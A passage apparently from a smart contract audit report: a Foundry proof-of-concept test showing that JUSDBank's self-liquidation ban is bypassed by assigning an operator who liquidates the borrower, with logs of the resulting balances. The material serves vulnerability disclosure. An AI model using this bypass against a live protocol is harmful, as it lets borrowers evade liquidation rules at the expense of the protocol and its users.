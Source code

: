 ```solidity
248:             param
249:         );
250:         //
251:         // 3. Alice tries to liquidate herself but the transaction is reverted by "SELF_LIQUIDATION_NOT_ALLOWED"
252:         //
253:         cheats.expectRevert("SELF_LIQUIDATION_NOT_ALLOWED");
254:         jusdBank.liquidate(
255:             alice, // Liquidated
256:             address(mockToken1),  //collateral used
257:             alice, //liquidator
258:             10e18, //10e18 amount
259:             afterParam,
260:             10e18 //expectedPrice
261:         );
262:         //
263:         // 4. Alice assigns the operator "Jim".
264:         //
265:         jusdBank.setOperator(jim, true);
266:         vm.stopPrank();
267:         console.log("Alice balance JUSD before liquidation:", IERC20(jusd).balanceOf(address(alice)));
268:         console.log("Alice balance USDC before liquidation:", IERC20(USDC).balanceOf(address(alice)));
269:         //
270:         // 5. Now Jim can liquidate Alice causing to Alice to get the collateral USDC. This bypass the restriction "SELF_LIQUIDATION_NOT_ALLOWED"
271:         //
272:         // Now Jim can liquidate his client Alice
273:         vm.startPrank(jim);
274:         jusdBank.liquidate(
275:             alice, // Liquidated
276:             address(mockToken1),  // collateral used
277:             jim, // liquidator Jim
278:             10e18, //10e18 amount
279:             afterParam,
280:             10e18 //expectedPrice
281:         );
282:         console.log("");
283:         console.log("Alice balance JUSD after liquidation: ", IERC20(jusd).balanceOf(address(alice)));
284:         console.log("Alice balance USDC after liquidation: ", IERC20(USDC).balanceOf(address(alice)));
285:     }
```

Output:

```bash
Running 1 test for test/Impl/JUSDBankLiquidateCollateral.t.sol:JUSDBankLiquidateCollateralTest
[PASS] testSelfLiquidationViaOperator() (gas: 1782422)
Logs:
  Alice balance JUSD before liquidation: 7426000000
  Alice balance USDC before liquidation: 0
  
  Alice balance JUSD after liquidation:  7426000000
  Alice balance USDC after liquidation:  748888889
```
